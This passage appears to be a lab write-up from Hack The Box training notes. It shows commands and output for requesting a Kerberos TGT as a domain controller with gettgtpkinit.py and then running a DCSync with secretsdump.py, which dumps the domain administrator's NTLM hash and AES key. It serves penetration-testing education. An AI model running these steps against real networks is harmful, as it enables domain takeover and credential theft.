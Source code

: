```shell-session
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed

<SNIP>
```

## Request TGT with gettgtpkinit.py

Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```shell-session
jadu101@htb[/htb]$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache

2022-04-05 15:56:33,239 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-04-05 15:56:33,362 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-04-05 15:56:33,395 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-04-05 15:56:33,396 minikerberos INFO     70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
INFO:minikerberos:70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
2022-04-05 15:56:33,401 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

## SetUp KRB5CCNAME Environment Variable

TGT requested above was saved to `dc01.ccache` file. 

We will use this to set KRB5CNAME environment variable so our attack host uses this file for Kerberos authentication attempts.

```shell-session
jadu101@htb[/htb]$ export KRB5CCNAME=dc01.ccache
```

## DCSync using TGT on DC

We can use this TGT with `secretsdump.py` to perform a DCSync and retrieve allof the NTLM password hashes for the domain:\

```shell-session
jadu101@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
```
